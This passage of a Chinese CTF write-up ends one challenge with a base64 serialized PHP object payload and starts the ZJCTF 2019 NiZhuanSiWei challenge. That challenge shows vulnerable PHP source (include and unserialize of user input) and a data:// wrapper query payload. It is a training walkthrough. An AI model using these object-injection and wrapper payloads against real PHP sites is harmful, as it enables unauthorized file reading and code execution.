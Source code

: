 ?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

得到flag

ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}

### [ZJCTF 2019]NiZhuanSiWei

```assembly
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

**file_get_contents**

(PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)

file_get_contents — 将整个文件读入一个字符串

#### 说明

file_get_contents(
  string `$filename`,
  bool `$use_include_path` = **`false`**,
  resource `$context` = ?,
  int `$offset` = 0,
  int `$length` = ?
): string|false

和 [file()](https://www.php.net/manual/zh/function.file.php) 一样，只除了 **file_get_contents()** 把文件读入一个字符串。将在参数 `offset` 所指定的位置开始读取长度为 `length` 的内容。如果失败，**file_get_contents()** 将返回 **`false`**。

**file_get_contents()** 函数是用来将文件的内容读入到一个字符串中的首选方法。如果操作系统支持还会使用内存映射技术来增强性能。

需要让$text输入 ”welcome to the zjctf“ 传入文件中才能进行后面的步骤，用data伪协议传参

```assembly
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```
